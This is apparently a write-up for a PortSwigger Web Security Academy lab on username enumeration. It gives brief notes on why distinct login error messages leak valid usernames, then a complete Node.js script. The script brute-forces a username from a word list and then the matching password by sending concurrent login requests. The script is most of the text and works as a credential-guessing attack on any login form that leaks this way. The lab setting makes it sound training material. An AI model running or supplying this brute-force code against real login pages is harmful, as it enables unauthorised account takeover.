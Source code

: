 # 1 - Username Enumeration

Web Security Academy lab: [Username enumeration via different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses).

### Notes

The app returns "Invalid username" or "Incorrect password" rather than a generic authentication failure message, allowing a valid username to be brute forced from a word list, followed by the valid password for this username. The trickiest part about this challenge is writing the script, but it is easy to solve using Burp Suite's "Intruder".

### Scripted Solution

```javascript
const fs = require('fs')
const axios = require('axios').default
require('dotenv').config({ path: './.env' })

/**
 * Loops through provided `wordList` by `step`, calling the `axiosCallback` and
 * checking result against the `matchCallback`.
 */
async function bruteForce(wordList, step, axiosCallback, matchCallback) {
  const wordListLength = wordList.length
  let from = 0,
    to = step
  let resultsAccumulator = []

  while (true) {
    const wordsSlice = wordList.slice(from, to)

    await Promise.all(wordsSlice.map((item) => axiosCallback(item))).then(
      (results) => {
        results.forEach((result) => {
          const match = matchCallback(result)
          if (match) resultsAccumulator.push(match)
        })
      }
    )

    if (to >= wordListLength) break

    from = to
    to = to + step > wordListLength ? wordListLength : to + step
  }

  return resultsAccumulator
}

/**
 * Run exploit.
 */
async function main() {
  const labUrl = process.env.LAB_URL
  const loginUrl = `${labUrl}/login`
  const usernamesTxt = fs.readFileSync(`./usernames.txt`, 'utf8')
  const usernames = usernamesTxt.split('\n')
  const passwordsTxt = fs.readFileSync(`./passwords.txt`, 'utf8')
  const passwords = passwordsTxt.split('\n')

  console.log('Brute forcing valid usernames...')
  const validUsernames = await bruteForce(
    usernames,
    10,
    (item) =>
      axios
        .post(loginUrl, `username=${item}&password=password`)
        .then((res) => ({ username: item, res: res.data })),
    (result) => {
      const { username, res } = result
      if (!res.match(/Invalid username/)) return username
      return false
    }
  )
  console.log(validUsernames)

  console.log(
    `Brute forcing valid password for username: ${validUsernames[0]}.`
  )
  const validPasswords = await bruteForce(
    passwords,
    10,
    (item) =>
      axios
        .post(loginUrl, `username=${validUsernames[0]}&password=${item}`)
        .then((res) => ({ password: item, res: res.data })),
    (result) => {
      const { password, res } = result
      if (!res.match(/Incorrect password/)) return password
      return false
    }
  )
  console.log(validPasswords)
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```
